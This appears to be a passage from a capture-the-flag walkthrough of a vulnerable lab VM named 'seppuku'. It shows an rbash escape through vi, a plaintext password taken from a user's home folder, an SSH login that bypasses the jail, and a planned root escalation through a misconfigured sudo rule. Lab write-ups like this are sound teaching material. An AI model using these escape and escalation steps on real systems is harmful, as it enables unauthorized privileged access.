 When trying to further inspect the system we see that we are jailed with `rbash` to restricts our access.

## `rbash` (jail) escape
```bash
$ vi
```

in `vi`
```
:set shell=/bin/sh
:shell
```

Now we can investigate the system further.

## privilege escalation

In the home folder of `seppuku` we find the password for user `samurai`:
```bash
$ cat .passwd
12345685213456!@!@A
```

Login via `ssh` as `samurai` with a full `bash` shell (bypass `rbash`)
```bash
$ ssh samurai@192.168.52.90 "bash --noprofile"
samurai@192.168.52.90's password: 
Linux seppuku 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
samurai@seppuku:~$ whoami
samurai
```

Check if we can execute commands as a super user.
```bash
samurai@seppuku:/home$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

> The executable `/home/tanto/.cgi_bin/bin` is not available.
{: .prompt-danger }

> So if we can place an executable in the `tanto` home folder in the way it is specified above we can escalate to root with the user `samurai`.
{: .prompt-info }
